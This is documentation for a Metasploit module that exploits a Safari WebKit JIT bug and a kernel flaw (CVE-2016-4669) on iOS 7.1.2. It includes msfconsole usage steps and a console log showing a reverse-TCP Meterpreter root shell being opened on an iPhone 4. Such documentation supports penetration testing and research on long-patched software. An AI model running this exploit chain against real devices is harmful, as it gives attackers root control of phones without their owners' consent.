 ## Vulnerable Application

This module exploits a JIT optimization bug in Safari Webkit. This allows us to
write shellcode to an RWX memory section in JavaScriptCore and execute it. The
shellcode contains a kernel exploit (CVE-2016-4669) that obtains kernel rw,
obtains root and disables code signing. Finally we download and execute the
meterpreter payload.

This module has been tested against iOS 7.1.2 on an iPhone 4.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/apple_ios/browser/safari_jit`
1. Do: `set lhost [ip]`
1. Do: `set srvhost [ip]`
1. Do: `run`
1. Browse to the website with a vulnerable device
1. You should get a root shell.

## Options

### DEBUG_EXPLOIT

Show debug information during exploitation.  This will add entries to the iPhone syslog related to exploitation and
loading of the payload.  Defaults to `false`

## Scenarios


### iPhone 4 with iOS 7.1.2

```
msf5 > use exploit/apple_ios/browser/safari_jit
[*] Using configured payload apple_ios/armle/meterpreter_reverse_tcp
msf5 exploit(apple_ios/browser/safari_jit) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf5 exploit(apple_ios/browser/safari_jit) > set srvhost 1.1.1.1
srvhost => 1.1.1.1
msf5 exploit(apple_ios/browser/safari_jit) > set verbose true
verbose => true
msf5 exploit(apple_ios/browser/safari_jit) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(apple_ios/browser/safari_jit) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/
[*] Server started.
[*] 2.2.2.2    safari_jit - Request / from Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/537.51.2 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/9537.53
[*] 2.2.2.2    safari_jit - Request /loader.b64?cache=1596557302841 from Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/537.51.2 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/9537.53
[*] 2.2.2.2    safari_jit - Request /macho.b64?cache=1596557303179 from Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/537.51.2 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/9537.53
[*] 2.2.2.2    safari_jit - Request /payload from MobileSafari/9537.53 CFNetwork/672.1.15 Darwin/14.0.0
[+] 2.2.2.2    safari_jit - Target is vulnerable, sending payload!
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:49299) at 2020-08-04 12:08:27 -0400
sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root @ iPhone (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : iPhone3,3 (iOS 11D257)
Architecture : armv7
BuildTuple   : arm-iphone-darwin
Meterpreter  : armle/apple_ios
```

